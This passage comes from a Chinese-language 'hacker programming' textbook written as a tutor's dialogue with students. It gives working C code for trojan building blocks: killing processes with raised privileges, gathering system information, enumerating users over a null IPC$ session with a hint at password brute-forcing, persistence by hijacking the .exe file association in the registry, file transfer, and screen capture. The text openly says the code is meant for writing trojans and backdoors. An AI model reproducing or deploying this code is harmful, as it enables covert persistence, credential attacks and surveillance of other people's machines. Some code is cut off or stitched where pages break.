    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == (HANDLE)-1)
    {
        printf("\nCreateToolhelp32Snapshot() failed:%d", GetLastError());
        return;
    }

    pe32.dwSize = sizeof(PROCESSENTRY32);
    printf("\nProcessName           ProcessID");
    if (Process32First(hProcessSnap, &pe32))
    {
        char a[5];
        do
        {
            itoa(pe32.th32ProcessID, a, 10);
            printf("\n%-20s%d", pe32.szExeFile, pe32.th32ProcessID);
        }
        while (Process32Next(hProcessSnap, &pe32));
    }
    else
    {
        printf("\nProcess32First() failed:%d", GetLastError());
    }

    CloseHandle(hProcessSnap);
    return;
}
```

## 第二章 黑客编程精粹

“上面的 pslist() 函数可以列出进程的名字和 PID，有了 PID，我们就可利用下面的 pskill() 函数来杀掉该进程。但是，因为很多进程的权限较高，而我们自己的程序往往只是以当前 USER 的权限运行，想要杀掉比自己权限高的程序，就要把我们的程序权限提高。”

“这里我们用 SetPrivilege() 函数来提升权限。”

```c
BOOL killps(DWORD id)   // 杀进程函数
{
    HANDLE hProcess=NULL,hProcessToken=NULL;
    BOOL IsKilled=FALSE,bRet=FALSE;
    __try
    {
        if(!OpenProcessToken(GetCurrentProcess(),TOKEN_ALL_ACCESS,&hProcessToken))
        {
            printf("\nOpen Current Process Token failed:%d",GetLastError());
            __leave;
        }
        //printf("\nOpen Current Process Token ok!");
        if(!SetPrivilege(hProcessToken,SE_DEBUG_NAME,TRUE))
        {
            __leave;
        }
        printf("\nSetPrivilege ok!");

        if((hProcess=OpenProcess(PROCESS_ALL_ACCESS,FALSE,id))==NULL)
        {
            printf("\nOpen Process %d failed:%d",id,GetLastError());
            __leave;
        }
        //printf("\nOpen Process %d ok!",id);
        if(!TerminateProcess(hProcess,1))
        {
            printf("\nTerminateProcess failed:%d",GetLastError());
            __leave;
        }
        IsKilled=TRUE;
    }
    __finally
    {
        if(hProcessToken!=NULL) CloseHandle(hProcessToken);
        if(hProcess!=NULL) CloseHandle(hProcess);
    }
    return(IsKilled);
}
```

## 第二章 黑客编程精粹

```c
BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege)
// 提升权限
{
    TOKEN_PRIVILEGES tp;
    LUID luid;

    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid))
    {
        printf("\nLookupPrivilegeValue error:%d", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL);

    if (GetLastError() != ERROR_SUCCESS)
    {
        printf("AdjustTokenPrivileges failed: %u\n", GetLastError());
        return FALSE;
    }
    return TRUE;
}
```

### 2.10 如何获得系统详细信息

> “木马程序都有一个获取系统信息的功能，如果是台配置较好的机器，就要多加保护哦！”
>
> “我们如何通过编程来获得系统信息呢？”马蜂窝问道。
>
> “下面是获取系统信息的代码，主要是取得计算机名、内存容量和驱动器类型。”

```c
#include <stdio.h>
#include <windows.h>
void GetSysInfo();

DWORD GetOS()
{
    OSVERSIONINFO os;
    os.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
    GetVersionEx(&os);
    switch (os.dwPlatformId)
    {
        case VER_PLATFORM_WIN32_WINDOWS:
            return VER_PLATFORM_WIN32_WINDOWS;

        case VER_PLATFORM_WIN32_NT:
            return VER_PLATFORM_WIN32_NT;
    }
    return 0;
}

VOID GetSysInfo()
{
    TCHAR szBuff[MAX_PATH];
    TCHAR szTemp[MAX_PATH];
    wsprintf(szBuff, "\n\n\r<<System Information>>\n\n\r");
    printf("%s", szBuff);

    // 计算机名
    DWORD len = sizeof(szTemp);
    GetComputerName(szTemp, &len);
    wsprintf(szBuff, "Computer Name:  %s\n\n\r", szTemp);
    printf("%s", szBuff);

    // 当前操作系统
    switch (GetOS())
    {
        case VER_PLATFORM_WIN32_WINDOWS:
            lstrcpy(szTemp, "Windows 9x");
            break;
        case VER_PLATFORM_WIN32_NT:
            lstrcpy(szTemp, "Windows NT/2000");
            break;
    }
    wsprintf(szBuff, "Option System:  %s\n\n\r", szTemp);
    printf("%s", szBuff);

    // 内存容量
    MEMORYSTATUS mem;
    mem.dwLength = sizeof(mem);
    GlobalMemoryStatus(&mem);

    wsprintf(szBuff, "Total Memory: %dM\n\n\r", mem.dwTotalPhys / 1024 / 1024 + 1);
    printf("%s", szBuff);

    // 系统目录
    TCHAR szPath[MAX_PATH];
    GetWindowsDirectory(szTemp, sizeof(szTemp));
    GetSystemDirectory(szBuff, sizeof(szBuff));
    wsprintf(szPath, "Windows Directory: %s\n\n\rSystem Directory: %s\n\n\r", szTemp, szBuff);
    printf("%s", szPath);

    // 驱动器及分区类型
    TCHAR szFileSys[10];
    for (int i = 0; i < 26; ++i)
    {
        wsprintf(szTemp, "%c:\\", 'A' + i);
        UINT uType = GetDriveType(szTemp);
        switch (uType)
        {
            case DRIVE_FIXED:
                GetVolumeInformation(szTemp, NULL, NULL, NULL, NULL, NULL, szFileSys, MAX_PATH);
                wsprintf(szBuff, "Hard Disk: %s (%s)\n\n\r", szTemp, szFileSys);
                printf("%s", szBuff);
                break;
            case DRIVE_CDROM:
                wsprintf(szBuff, "CD-ROM Disk: %s\n\n\r", szTemp);
                printf("%s", szBuff);
                break;
            case DRIVE_REMOTE:
                GetVolumeInformation(szTemp, NULL, NULL, NULL, NULL, NULL, szFileSys, MAX_PATH);
                wsprintf(szBuff, "NetWork Disk: %s (%s)\n\n\r", szTemp, szFileSys);
                printf("%s", szBuff);
                break;
        }
    }
}

int main(void)
{
    GetSysInfo();
    return 0;
}
```

### 2.11 如何通过建立空连接来取得系统用户

“我们要取得肉鸡的控制权，首先要有 Administrator 权限。而获取权限的途径很多都是通过 IPC$ 破解来获取用户密码。”

“那我们如何获得用户名以及破解用户密码呢？”冰眼问道。

“首先，我们要建立一个空的 IPC 连接，因为 Win2000 默认允许空连接，即可以利用 `net use \\192.168.0.2\ipc$ "" /user:""` 来建立一个空 IPC 连接。通过这个连接，我们可获取用户名。对应的，我们要利用 `WNetAddConnection2` 函数来建立空连接。接着就可利用 `NetLocalGroupEnum` 函数来获取远端用户组的信息了，取得的信息保存在 `PLOCALGROUP_INFO_1` 结构中。”

“然后把这个结构的内容打印出来就行了，下面是参考代码：”

```c
#include <windows.h>
#include <stdio.h>
#include <lm.h>

#pragma comment(lib, "Mpr.lib")
#pragma comment(lib, "Netapi32.lib")

void getuser(char *);

void main(int argc, char *argv[])
{
    DWORD ret;
    char username[100] = "", password[100] = "";    // 空用户名和密码
    char server[100] = "", ipc[100] = "";
    NETRESOURCE NET;

    if (argc == 1) {
        exit(1);
    }

    strncpy(server, argv[1], 100);
    printf("server: %s\n", server);
    sprintf(ipc, "\\\\%s\\ipc$", server);

    NET.lpLocalName = NULL;
    NET.lpProvider = NULL;
    NET.dwType = RESOURCETYPE_ANY;
    NET.lpRemoteName = (char *)&ipc;

    printf("setting up session... ");
    ret = WNetAddConnection2(&NET, (const char *)&password, (const char *)&username, 0);
    // 建立空连接

    if (ret != ERROR_SUCCESS)
    {
        printf("IPC$ connect fail.\n");
        exit(1);
    }
    else printf("IPC$ connect success.\n");

    getuser((char *)&server);

    printf("Disconnect Server... ");
    ret = WNetCancelConnection2((char *)&ipc, 0, TRUE);   // 断开 IPC 连接
    if (ret != ERROR_SUCCESS)
    {
        printf("fail.\n");
        exit(1);
    }
    else printf("Success.\n");
    exit(0);
}

void getuser(char *server)    // 取得用户的函数
{
    DWORD ret, read, total, resume = 0;
    int i;
    LPVOID buff;
    char comment[255];
    wchar_t wserver[100];

    do
    {
        ret = NetLocalGroupEnum(wserver, 1, (unsigned char **)&buff, MAX_PREFERRED_LENGTH,
            &read, &total, &resume);

        if (ret != NERR_Success && ret != ERROR_MORE_DATA)
        {
            printf("fail\n");
            break;
        }

        PLOCALGROUP_INFO_1 info = (PLOCALGROUP_INFO_1)buff;

        for (i = 0; i < read; i++) {
            printf("GROUP: %S\n", info[i].lgrpi1_name);

            WideCharToMultiByte(CP_ACP, 0, info[i].lgrpi1_comment, -1, comment, 255, NULL, NULL);
            printf("\tCOMMENT: %s\n", comment);

            DWORD ret, read, total, resume = 0;
            ret = NetLocalGroupGetMembers((const unsigned short *)&wserver, info[i].lgrpi1_name, 2,
                (unsigned char **)&buff, 1024, &read, &total, &resume);

            if (ret != NERR_Success && ret != ERROR_MORE_DATA) {
                printf("fail\n");
                break;
            }

            PLOCALGROUP_MEMBERS_INFO_2 info = (PLOCALGROUP_MEMBERS_INFO_2)buff;

            for (unsigned i = 0; i < read; i++) {
                printf("\t%S\n", info[i].lgrmi2_domainandname);
                printf("\t\t\tSID:%d\n", info[i].lgrmi2_sid);
                printf("\t\t\tSIDUSAGE:%d\n", info[i].lgrmi2_sidusage);
            }
            NetApiBufferFree(buff);
        }
        NetApiBufferFree(buff);

    } while (ret == ERROR_MORE_DATA);
}
```

> “取得了用户名，就可利用 WNetAddConnection2 来尝试破解用户密码了，大家可自己动脑筋想想如何来实现（其实比较简单，外面加个循环来改变用户名和密码变量就 OK 啦）！相信难不倒大家的。”

“最后不要忘记用 WNetCancelConnection2 断开连接。”

“OK！”蓝狐回道。

### 2.12 如何实现文件关联

“谷大哥，很多木马都会使用到文件关联技术，能否为我们介绍一下呢？”蓝狐问道。

“好的。所谓文件关联，就是当我们执行某种程序时，系统会先执行我们的木马，然后再由木马来启动相应的程序。这样，在用户看来，好像我们的木马不存在一样。在注册表 `HKEY_CLASSES_ROOT\exefile\shell\open\command` 中的值，就是可执行程序 `*.exe` 文件的关联处，缺省为 `"%1" %*`，如果把这个程序改为我们的木马程序，那么每执行一个可执行程序，就会执行我们的程序，而不会再执行原有的程序。这样，我们的木马就启动了。”

> “但是，如果单单是启动我们的木马，那么其它所有的 EXE 程序都不能运行。我们要做的工作就是：木马启动后，再执行原有的程序，这样在一般人看来，好像什么事也没发生过。另外，由于每启动一个 EXE 程序，都会启动一次我们的木马程序，所以还要防止我们的木马被多次启动。”

“如何能防止一个程序多次启动呢？即确保只能有一个进程在系统当中。”马蜂窝问道。

“要防止多个进程同时出现，要使用 `CreateMutex()` 函数来创建互斥对象。互斥对象能确保多个线程或进程对单个资源的互斥访问，即某个资源不会同时被两个或以上的线程（或进程）所访问。我们通过下面的代码来创建一个互斥对象：”

```c
HANDLE hMutex;
DWORD dwErr;

hMutex = CreateMutex(NULL,    // 无安全描述
                     FALSE,   // 没有所有者
                     "HACK"); // 对象名

if (hMutex == NULL)    // hMutex 为 NULL 表示创建失败
{
    MessageBox(NULL, "CreateMutex error!", NULL, MB_OK);
}
else
{
    dwErr = GetLastError();
    if (dwErr == ERROR_ALREADY_EXISTS)    // 互斥对象已经存在，所以要退出
    {
        MessageBox(NULL, "Application has already running", NULL, MB_OK);
        ExitProcess(0);
    }
}
```

“上面的代码可确保只有一个进程在系统中。当然，上面的 `MessageBox()` 函数是用来做演示用的，真正写木马或后门程序时，就不要这样画蛇添足了！”

“现在我们知道了如何防止程序多次运行，那么还要怎样来实现文件关联呢？”我是良民问道。

“首先，我们要修改 `HKEY_CLASSES_ROOT\exefile\shell\open\command` 中的值，就是可执行文件 `*.exe` 的关联处，缺省为 `"%1" %*`。当我们把值修改为 `c:\hack.exe "%1" %*` 时，以后打开 EXE 文件就会激活 C 盘下的 hack.exe。另外，我们要在 hack.exe 中取得传入的命令行参数，再启动原来的 EXE 程序。具体的演示代码如下：”

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char *argv[])
{
    MessageBox(NULL, "Hello", NULL, MB_OK);
    char temp[256];
    memset(temp, 0, 256);
    if (argc != 1) {
        int length = strlen(argv[1]);
        char *ch = (char *)malloc(length);
        strcpy(ch, argv[1]);
        for (int i = 0; i < length; i++, ch++)
        {
            if (*ch == '\\')
            {
                ...
            }
        }
    }
}
```

```c
strncat(temp,"\\\\",2);
else strncat(temp,ch,1);
}
// 上面的函数是把字符串中所有的“\”变为“\\”
char str[]="\"%1\" %*";
RegSetValue(HKEY_CLASSES_ROOT,"exefile\\shell\\open\\command",REG_SZ,(LPCTSTR)str,strlen(str)+1);

// 在执行原有程序之前，必须把注册表恢复，否则 ShellExecute 还是执行我们的木马程序。
ShellExecute(NULL,"open",temp,NULL,NULL,SW_SHOW); // 执行原有程序

// 在程序执行完成后，再把注册表改为我们要启动的木马程序
TCHAR filename[256];
// 得到程序全路径名
GetModuleFileName(NULL, filename, 255);
strcat(filename," \"%1\" %*");
RegSetValue(HKEY_CLASSES_ROOT,"exefile\\shell\\open\\command",REG_SZ,(LPCTSTR)filename,strlen(filename)+1);
return 0;
}
```

“经过上述过程后，只要 EXE 程序一运行，就会先执行我们的木马程序。即使是在安全模式下，只要执行可执行程序，也会运行我们的程序。”

“编译上面的代码，只要执行一次这个程序，以后打开 EXE 程序都会弹出一个 MessageBox 对话框。当然，把上面的 MessageBox 函数换成其它函数的话，就可实现你想要的功能啦！但如果程序是常驻内存，别忘了把上面创建互斥对象的代码也加进去，否则每打开一个 EXE 程序就会多一个我们的木马进程，那样就遭了，还嫌木马不容易被发现么？”

“嗯，明白。这种方法是启动木马的一种好方法哦！”多多喵说道。

“对了，还有一点要说一下。当文件关联被改成 ‘c:\\hack.exe "%1" %*’ 后，如果把 hack.exe 删掉，那么所有的 EXE 程序都不能运行了！这点大家在试验时要注意哦！万一真的是这样的话，就把 regedit.exe 改名为 regedit.com，执行后再把 ‘c:\\hack.exe "%1" %*’ 改回 ‘"%1" %*’ 就行了。当然，真正的木马还会时刻监视注册表的这个键值是否是 ‘c:\\hack.exe "%1" %*’，如果不是就修改它，这样就能确保木马能够启动了。”

“好了，关于文件关联的启动方法就介绍到这里，希望大家能够灵活运用这种方法。”

### 2.13 如何发送和接收文件

“木马和后门的一个重要功能是‘文件传送’，请问如何实现两台机器间的文件传送呢？”冰眼问道。

“文件传送的功能实现起来也是比较容易的，我给大家简单介绍一下。首先，我们要知道利用什么协议来实现文件传送。TCP 和 UDP 两种协议都可用来进行文件传送，TCP 是面向连接的，而 UDP 是无连接的。”

#### TCP 和 UDP 的优缺点

利用 TCP 协议进行文件传送的优点是可靠，缺点是占用资源较大。而利用 UDP 协议进行传送的优点是高效，因为它不需要建立真正的连接（QQ 上两个用户之间的文件传输就是利用的 UDP 协议），缺点是不可靠。如果是在带宽较大的局域网中，利用 UDP 协议传送文件会取得较好的效果，而在 Internet 上则通常使用 TCP。

“下面我们来看看如何实现：首先，我们要用到 CreateFile() 函数，这个函数用于打开一个文件内核对象。如下面的调用就是打开 filename 指向的文件：”

```c
HANDLE hFile=CreateFile(filename,     // 文件名指针
    GENERIC_READ,                     // 打开模式，GENERIC_WRITE 为写模式
    0,                                // 共享属性，0 表示不允许文件再被打开
    0,                                // 安全描述
    OPEN_EXISTING,                    // 用来设置文件存在或不存在时系统采用的方法，这里表示打开存在的文件
    FILE_ATTRIBUTE_NORMAL,            // 这里表示普通文件
    0);                               // 文件模板
```

“创建了文件对象后，我们就可利用 ReadFile() 或者 WriteFile() 来进行文件的读取和写入了。”

```c
ReadFile() 的函数原型：
BOOL ReadFile(HANDLE hFile,           // 文件对象句柄，也就是 CreateFile() 函数返回的句柄
    LPVOID lpBuffer,                  // 读入数据的指针
    DWORD nNumberOfBytesToRead,       // 指定需要读入的字节数
    LPDWORD lpNumberOfBytesRead,      // 实际读入的字节数
    LPOVERLAPPED lpOverlapped         // 文件异步读写时使用的数据，同步中设为 NULL
);
```

“ReadFile() 函数返回值如果为 FALSE，并且读入的字节数也返回为 0，则表示文件到达了末尾。WriteFile() 函数跟 ReadFile() 函数的原型是一样的，只不过用于把数据写进文件。”

“在服务器端，使用 ReadFile() 来读取文件内容，然后利用 socket 的 send() 函数发送到客户端。客户端首先利用 recv() 函数接收数据，再用 WriteFile() 函数把接收到的数据写入到文件中去。”

“服务器端是不是一次就可把文件发送完毕啊？如果文件太大了咋办？好像 send() 函数发送的数据大小有限制哦！”我是良民问道。

“嗯，没错！所以我们要将文件进行分割，每次用 ReadFile() 读取 1K，然后发送 1K 的数据，客户端每收到 1K 就把数据写进文件中。下面给出发送端和接收端的代码：”

```cpp
/*************** Sendfile server.cpp ***************/
/*************** 发送端代码 2004/1/28 ********/
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")

void main() {
    WSADATA wsaData;        // 初始化
    int iResult = WSAStartup(MAKEWORD(2,2), &wsaData);
    if (iResult != NO_ERROR)
        printf("Error at WSAStartup()\n");

    SOCKET server;          // 建立 socket
    server = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (server == INVALID_SOCKET) {
        printf("Error at socket(): %ld\n", WSAGetLastError());
        WSACleanup();
        return;
    }

    sockaddr_in service;    // 绑定 socket
    service.sin_family = AF_INET;
    service.sin_addr.s_addr = inet_addr("127.0.0.1");
    service.sin_port = htons(8000);    // 要绑定的端口
    if (bind(server, (SOCKADDR*)&service, sizeof(service)) == SOCKET_ERROR) {
        printf("bind() failed.\n");
        closesocket(server);
        return;
    }

    if (listen(server, 1) == SOCKET_ERROR)   // 监听 Socket
        printf("Error listening on socket.\n");

    SOCKET AcceptSocket;    // 接受连接
    printf("Waiting for a client to connect...\n");
    while (true) {
        AcceptSocket = SOCKET_ERROR;
        while (AcceptSocket == SOCKET_ERROR) {
            AcceptSocket = accept(server, NULL, NULL);
        }
        printf("Client Connected.\n");
        server = AcceptSocket;
        break;
    }

    // 发送接收数据
    char sendbuf[1024];     // 发送缓冲区
    DWORD dwRead;
    BOOL bRet;
    char filename[] = "c:\\hacker.exe";   // 发送 c 盘下的 hacker.exe 文件
    HANDLE hFile = CreateFile(filename, GENERIC_READ, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
    while (true) {
        bRet = ReadFile(hFile, sendbuf, 1024, &dwRead, NULL);   // 读取 1024 字节
        if (bRet == FALSE) {
            MessageBox(NULL,"Read Buf ERROR!","Error",MB_OK);
            break;
        } else if (dwRead == 0) {    // 如果读到的字节数为 0，表示文件读取完毕
            MessageBox(NULL,"Send file OK!","OK",MB_OK);
            break;
        } else {
            send(server, sendbuf, dwRead, 0);   // 发送数据
        }
    }
    CloseHandle(hFile);
    return;
}
```

“接收文件的代码如下：”

```cpp
/*************  Receivefile client.cpp  ***************
*********************** 接收文件代码    2004/11/28    **/
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")

void main() {
    WSADATA wsaData;      // 初始化 Winsock
    int iResult = WSAStartup(MAKEWORD(2,2), &wsaData);
    if (iResult != NO_ERROR)
        printf("Error at WSAStartup()\n");

    SOCKET client;    // 建立 Socket
    client = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (client == INVALID_SOCKET) {
        printf("Error at socket(): %ld\n", WSAGetLastError());
        WSACleanup();
        return;
    }

    sockaddr_in clientService;
    clientService.sin_family = AF_INET;
    clientService.sin_addr.s_addr = inet_addr("127.0.0.1");
    clientService.sin_port = htons(8000);

    // 连接到服务器
    if (connect(client, (SOCKADDR*)&clientService, sizeof(clientService)) == SOCKET_ERROR) {
        printf("Failed to connect.\n");
        WSACleanup();
        return;
    }

    char recvbuf[1024];   // 接收缓冲区
    int read;
    DWORD dwWrite;
    BOOL bRet;

    char filename[] = "c:\\hackerxfiles.exe";   // 要保存的文件名
    HANDLE hFile = CreateFile(filename, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0); // 创建文件对象

    while (true) {
        read = recv(client, recvbuf, 1024, 0);   // 接收数据，read 为实际接收到的数据
        if (read == -1) break;                   // 如果 read 为 -1，表示接收完毕
        bRet = WriteFile(hFile, recvbuf, read, &dwWrite, NULL);
        // recv() 接收到多少就写多少
        if (bRet == FALSE) {
            MessageBox(NULL, "Write Buf ERROR!", "Error", MB_OK);
            break;
        }
    }

    MessageBox(NULL, "Receive file OK!", "OK", MB_OK);
    return;
}
```

“以上就是 C/S 模式的文件传送代码。当然，大家可把它做成一个函数，以后使用起来就比较方便了。好了，关于文件传送的代码就介绍到这里，希望能为大家写木马或后门程序提供一点帮助！”

### 2.14 如何捕获当前桌面

“很多木马都提供有屏幕捕获功能，即可以看到远程桌面，请问这是怎么实现的啊？谷大哥。”蓝狐问道。

“其实，原理就是捕获屏幕画面，然后再把图像传给客户机。原理很简单。”

- **屏幕捕获功能原理：**
  1. 先利用 `hdc=GetWindowDC(NULL);` 得到桌面的 hdc。
  2. `memhdc=CreateCompatibleDC(hdc);` 根据桌面的 hdc，创建一个和屏幕相同的内存 DC。
  3. `StretchBlt(memhdc, 0, 0, nWid, nHei, hdc, 0, 0, nWid, nHei, SRCCOPY);` 把屏幕的图像复制到内存 DC，这时你已经在内存中得到屏幕图像了。这是设备相关的 DDB 图像，如果希望转换成设备无关的 DIB 图像，只需在 DDB 图像前创建一个标准的 Bitmap 文件头就可以了：`(DDBtoDIB(bitmap, BI_RGB, pal))`。
  4. 得到图像数据（如果考虑速度的话，可以把图像压缩）。
  5. 数据传输（远程监控）。

“在这里，我们先看看截获当前桌面是如何实现的。关于远程捕获，只要在下面代码的基础上加上网络传输部分就 OK 了。下面介绍捕获桌面技术的基础，具体截屏代码如下：”

```c
#include <windows.h>
HANDLE DDBtoDIB(HBITMAP bitmap, DWORD dwCompression, HPALETTE hPal, DWORD *sizeimage)
// 把 DDB 转换成设备无关位图的转换函数
{
    BITMAP bm;
    BITMAPINFOHEADER bi;
    LPBITMAPINFOHEADER lpbi;
    DWORD dwLen;
    HANDLE hDib;
    HANDLE handle;
    HDC hdc;

    // 不支持 BI_BITFIELDS 类型
    if (dwCompression == BI_BITFIELDS)
        return NULL;

    // 如果调色板为空，则用默认调色板
    if (hPal == NULL)
        hPal = (HPALETTE)GetStockObject(DEFAULT_PALETTE);

    // 获取位图信息
    GetObject(bitmap, sizeof(bm), (LPSTR)&bm);

    // 初始化位图信息头
    bi.biSize = sizeof(BITMAPINFOHEADER);
    bi.biWidth = bm.bmWidth;
    bi.biHeight = bm.bmHeight;
    bi.biPlanes = 1;
    bi.biBitCount = bm.bmPlanes * bm.bmBitsPixel;
    bi.biCompression = dwCompression;
    bi.biSizeImage = 0;
    bi.biXPelsPerMeter = 0;
    bi.biYPelsPerMeter = 0;
    bi.biClrUsed = 0;
    bi.biClrImportant = 0;

    // 计算信息头及颜色表大小
    int ncolors = (1 << bi.biBitCount);
    if (ncolors > 256) ...
}
```

## 第二章 黑客编程精粹

```c
ncolors = 0;
dwLen = bi.biSize + ncolors * sizeof(RGBQUAD);

hdc = GetDC(NULL);
hPal = SelectPalette(hdc, hPal, FALSE);
RealizePalette(hdc);

// 为信息头及颜色表分配内存
hDib = GlobalAlloc(GMEM_FIXED, dwLen);
if (!hDib) {
    SelectPalette(hdc, hPal, FALSE);
    ReleaseDC(NULL, hdc);
    return NULL;
}
lpbi = (LPBITMAPINFOHEADER)hDib;
*lpbi = bi;

// 调用 GetDIBits 计算图像大小
GetDIBits(hdc, bitmap, 0L, (DWORD)bi.biHeight, (LPBYTE)NULL,
          (LPBITMAPINFO)lpbi, (DWORD)DIB_RGB_COLORS);
bi = *lpbi;

// 图像的每一行都对齐（32bit）边界
if (bi.biSizeImage == 0) {
    bi.biSizeImage = ((((bi.biWidth * bi.biBitCount) + 31) & ~31) / 8)
                     * bi.biHeight;
    if (dwCompression != BI_RGB)
        bi.biSizeImage = (bi.biSizeImage * 3) / 2;
}

// 重新分配内存大小，以便放下所有数据
dwLen += bi.biSizeImage;
if (handle = GlobalReAlloc(hDib, dwLen, GMEM_MOVEABLE))
    hDib = handle;
else {
    GlobalFree(hDib);
    // 重选原始调色板
    SelectPalette(hdc, hPal, FALSE);
    ReleaseDC(NULL, hdc);
    return NULL;
}

// 获取位图数据
lpbi = (LPBITMAPINFOHEADER)hDib;
// 最终获得的 DIB
BOOL bgotbits = GetDIBits(hdc, bitmap,
    0L,                           // 扫描行起始处
    (DWORD)bi.biHeight,           // 扫描行数
    (LPBYTE)lpbi                  // 位图数据地址
        + (bi.biSize + ncolors * sizeof(RGBQUAD)),
    (LPBITMAPINFO)lpbi,           // 位图信息地址
    (DWORD)DIB_RGB_COLORS);       // 颜色板使用 RGB

if (!bgotbits)
{
    GlobalFree(hDib);
    SelectPalette(hdc, hPal, FALSE);
    ReleaseDC(NULL, hdc);
    return NULL;
}
SelectPalette(hdc, hPal, FALSE);
ReleaseDC(NULL, hdc);
*sizeimage = bi.biSizeImage;
return hDib;
}

BOOL CapScreen(LPTSTR FileName)  // 截屏函数
{
    DWORD sizeimage;
    HDC hdc = CreateDC("DISPLAY", NULL, NULL, NULL);
    HDC CompatibleHDC = CreateCompatibleDC(hdc);
    HBITMAP BmpScreen = CreateCompatibleBitmap(hdc, GetDeviceCaps(hdc, HORZRES),
        GetDeviceCaps(hdc, VERTRES));
    SelectObject(CompatibleHDC, BmpScreen);
    BitBlt(CompatibleHDC, 0, 0, GetDeviceCaps(hdc, HORZRES), GetDeviceCaps(hdc,
        VERTRES), hdc, 0, 0, SRCCOPY);

    HANDLE pbitmapwithoutfileh = DDBtoDIB(BmpScreen, BI_RGB, 0, &sizeimage);
    BITMAPFILEHEADER bfh;
    // 设置位图信息头结构
    bfh.bfType = ((WORD)('M' << 8) | 'B');
    bfh.bfReserved1 = 0;
    bfh.bfReserved2 = 0;
    bfh.bfSize = 54 + sizeimage;
    bfh.bfOffBits = 54;

    // 创建位图文件
    HANDLE hFile = CreateFile(FileName, GENERIC_WRITE, 0, 0, CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL, 0);
    DWORD dwWrite;
    // 写入位图文件头
    WriteFile(hFile, &bfh, sizeof(BITMAPFILEHEADER), &dwWrite, NULL);
    // 写入位图文件其余内容
    WriteFile(hFile, pbitmapwithoutfileh, bfh.bfSize, &dwWrite, NULL);
    DeleteDC(hdc);
    CloseHandle(CompatibleHDC);
    return true;
}

int main(void)
{
    CapScreen("d:\\desktop.bmp");    // 在 d 盘创建 bmp 位图
    return 0;
}
```

“上面的代码就是把当前桌面保存为 bmp 位图。想要查看远程桌面，只需把这个 bmp 图像传回本地再打开就 OK 了。”

“晕！现在的木马都有实时回放远程桌面的功能，如果只把桌面保存为一个 bmp 图像再传回本地，不但得到的不是动态桌面，而且操作起来比较麻烦！这样做实在没什么实用价值啊！”我是良民说道。

“没错！这样做的确比较麻烦，但这个例子只是让大家了解如何实现屏幕捕获。关于远程实时监控，要处理的东西还比较多，而且在这里也不容易说清楚。关于屏幕捕获的知识就先介绍这些，上面的 CapScreen(LPTSTR FileName) 函数大家只要适当调用，就可得到当前桌面了。”

“哦！回头试试看吧！”我是良民有点意犹未尽。

## 第三章 黑客编程实例

- 3.1 端口扫描器 77
- 3.1.1 编写最简单的端口扫描器 77
- 3.1.2 多线程 connect 扫描器 79
- 3.1.3 打造极速 syn 扫描器 87
- 3.2 一个简单嗅探软件的实现 100
- 3.3 多线程 DoS 程序 106
- 3.3.1 DoS 原理 106
- 3.3.2 对 SYN Flood 攻击的防御 108
- 3.4 HTTP 代理程序设计 113
- 3.5 ICMP 通道后门原理及实现 119
- 3.6 编写 SNMP 信息刺探工具 129
- 3.6.1 前置知识 129
- 3.6.2 SNMP 的工作原理 131
- 3.6.3 SNMP 信息刺探工具源码 132
- 3.7 一个简单包过滤防火墙的实现 137
- 3.8 编写一个键盘记录器 140
- 3.9 线程插入技术详解 148

### 3.1 端口扫描器

#### 3.1.1 编写最简单的端口扫描器

> 前置知识：Winsock

难度：低

编译环境：VC6.0 + Win2000

测试环境：Win2000 + 局域网


“大家好！通过前面几节课的学习，相信大家对基础知识都了解得差不多了，下面我们开始实习演练！”

“哇塞！太好了！”大家都很兴奋！

“我们从简单的做起！现在我们就来写一个简单的扫描器。”

“谷大哥，能不能先讲一下扫描器的原理呢？”蓝狐问道。

“好的。那我就先说一个最简单的端口扫描器的原理。”

> **最简单的端口扫描器的原理**

最常用的端口扫描器是根据能否连接目标主机的端口来判断目标端口是否开放。扫描方式是利用 TCP 的完全连接方式。当目标主机某端口开放服务，那么该服务程序就会在该端口进行监听。因此，如果我们的程序利用 connect() 函数连接到该端口，就可以成功连上（如果目标主机安装了防火墙，禁止我们的 IP 连接，就不可能连接上）。我们就是利用 connect() 函数来判断目标主机端口的开放情况。这种探测方式不像 SYN 或 FIN 方式的扫描器那样，需要 Administrator 权限，而且稳定可靠。缺点也很明显，因为这种探测方式需要经历一个完整的 TCP 三次握手过程，即建立了一次完整连接。如果目标主机上的服务程序有记录 IP 的话，我们就会暴露出自己的地址。


“哦，connect() 函数是不是之前介绍的 winsock 里的 connect() 函数？”蓝狐问道。

“对啊！端口扫描器算是网络程序，当然要用到 Socket 的了。我们来看一个单线程的扫描器例子。这个单线程扫描器只启动一个主线程，在主线程里不停调用 connect() 函数来连接目标端口。如果连接成功，connect() 函数会返回 0。我们根据 connect() 函数的返回值就可判断出目标主机的某一端口是否开放。”

```c
#include <winsock2.h>
#include <stdio.h>
#include <time.h>   // 计时需要用到的头文件
#pragma comment(lib,"ws2_32.lib")
clock_t start, end;   // 程序运行的起始和结束时间
float costtime;       // 程序耗时
void usage(void)
{
    printf("\tusage: tcpscan RemoteIP StartPort-EndPort\n");
    printf("\tExample: tcpscan 192.168.1.1 80-100\n");
}

int main(int argc, char **argv)
{
    char *host;
    int startport, endport;
    char *p;
    if (argc != 3)
    {
        usage();
        return 0;
    }

    p = argv[2];    // 处理端口参数，扫描器通用处理代码
